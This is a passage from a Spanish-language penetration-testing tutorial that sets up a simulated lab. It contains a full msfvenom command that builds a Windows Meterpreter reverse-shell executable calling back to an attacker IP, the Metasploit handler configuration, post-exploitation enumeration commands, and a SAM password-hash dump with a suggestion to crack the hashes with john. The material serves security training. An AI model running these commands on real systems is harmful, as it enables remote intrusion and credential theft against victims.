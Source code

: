 ### ⚡️ FASE 0: ACCESO INICIAL (simulado)

Creamos un **payload de acceso remoto (Meterpreter)**:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.100.2 LPORT=4444 -f exe -o shell.exe
```

Inicia el handler:

```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.100.2
set LPORT 4444
run
```

Simula que el usuario hace clic en `shell.exe` en la máquina Windows.

---

### 🧠 TÉCNICAS DE POST-EXPLOTACIÓN (CASO REAL)

---

#### 1️⃣ Enumeración del sistema

Una vez en Meterpreter:

```bash
sysinfo         # Info del sistema
getuid          # Usuario actual
ipconfig        # IP de la víctima
netstat -ano    # Conexiones activas
```

##### ¿Por qué importa?

Para saber dónde estás y qué tipo de sistema has comprometido.

---

#### 2️⃣ Dump de contraseñas

##### A. Volcado de SAM

```bash
hashdump
```

Obtendrás hashes como:

```
Administrator:500:aad3...:31d6...
```

Puedes usar estos hashes con `john` para intentar obtener las contraseñas reales.

---